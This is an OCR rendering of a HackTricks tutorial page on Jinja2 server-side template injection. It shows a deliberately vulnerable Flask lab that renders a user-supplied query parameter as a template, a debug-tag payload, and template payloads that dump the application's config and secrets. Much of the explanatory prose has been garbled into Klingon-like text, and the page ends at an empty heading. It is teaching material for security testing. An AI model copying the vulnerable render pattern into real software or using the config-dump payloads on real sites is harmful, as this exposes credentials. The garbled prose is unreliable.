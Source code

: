 # Jinja2 SSTI

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## **Lab**
```python
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route("/")
def home():
if request.args.get('c'):
return render_template_string(request.args.get('c'))
else:
return "Hello, send someting inside the param 'c'!"

if __name__ == "__main__":
app.run()
```
## **Misc**

### **Debug Statement**

**QaSpu'wI'**

Debug Extension jImej, 'ej `debug` tag vItlhutlh. vaj 'oH vItlhutlh context 'ej filters je tests. vaj 'oH vItlhutlh template vaj 'oH vItlhutlh debugger vItlhutlh.
```python
<pre>

{% raw %}
{% debug %}
{% endraw %}


</pre>
```
Source: [https://jinja.palletsprojects.com/en/2.11.x/templates/#debug-statement](https://jinja.palletsprojects.com/en/2.11.x/templates/#debug-statement)

### **Dump all config variables**

### **tlhIngan Hol Translation:**

### **QapHa' config variables vItlhutlh**
```python
{{ config }} #In these object you can find all the configured env variables


{% raw %}
{% for key, value in config.items() %}
<dt>{{ key|e }}</dt>
<dd>{{ value|e }}</dd>
{% endfor %}
{% endraw %}
```
## **Jinja Injection**
